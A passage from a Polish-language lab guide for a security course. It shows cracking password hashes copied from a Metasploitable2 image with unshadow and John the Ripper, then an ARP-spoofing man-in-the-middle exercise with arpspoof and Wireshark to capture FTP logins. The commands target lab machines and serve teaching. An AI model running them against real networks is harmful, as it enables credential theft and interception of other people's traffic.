 * Ponownie montujemy system plików metasploitable2.
* Kopiujemy pliki passwd oraz shadow do systemu Kali.

:::warning
UWAGA!
Zwróć uwagę na kropkę na końcu polecenia
:::

`# cp /tmp/mnt/etc/{passwd,shadow} .`
* Za pomocą narzędzia unshadow łączymy oba pliki i zapisujemy:
`# unshadow passwd shadow > hash.txt`
* Następnie z użyciem narzedzia **John the Ripper** krakujemy:
`# john hasz.txt`

## Ćwiczenie 8 – atak MITM, arp spoofing
>**Zasoby:**
Kali Linux , WinServer2008, Windows 10

Aby przetestować działanie ataku typu Arp Spoofing wykorzystamy program **arpspoof**, dostępny w systemie Kali Linux.
Na początku należy ustawić, by system przekazywał pakiety. W tym celu ustawiamy
parametr `ip_forward na 1`:
`# echo 1 > /proc/sys/net/ipv4/ip_forward`
Lub za pomocą sysctl, gdzie należy odkomentować linijkę:
`#net.ipv4.ip_forward=1`
Oraz wykonać:
`#sysctl –p`

Zanim przystąpimy do zatruwania tablic ARP, zwróćmy uwagę jakie adresy MAC są przypisane do konkretnych adresów IP:
`# arp –a`

* Aby rozpocząć proces zatruwania korzystamy z narzędzia arpspoof:
`# arpspoof –i <interfejs> -t <cel> <adres pod jaki się
podszywamy>`
np:
`# arpspoof –i eth0 –t 192.168.1.25 192.168.1.15`
Po uruchomieniu, program natychmiast rozpocznie rozsyłanie komunikatów ARP.
Aby mieć możliwość przechwycenia ruchu pomiędzy dwoma maszynami, musimy przekonać drugiego hosta by przesyłał ruch do nas. W tym celu uruchamiamy kolejne okno terminala i wykonujemy polecenie arpspoof, z tym że teraz adres celu będzie adresem pod który się podszyjemy. Np.:
`# arpspoof –i eth0 –t 192.168.1.15 192.168.1.25`
Należy teraz spojrzeć na tablice ARP i porównać wyniki z wynikami z przed ataku.
* Teraz, zalogujmy się na serwer ftp z poziomu w7 i za pomocą programu Wireshark przechwyćmy dane logowania:
np:
```
ftp 192.168.1.15
User: John
Password:
```
:::info
Aby przefiltrować wyniki tylko dla pakietów ftp, w pasku filtru wpisz:
`tcp.port == 21`
:::
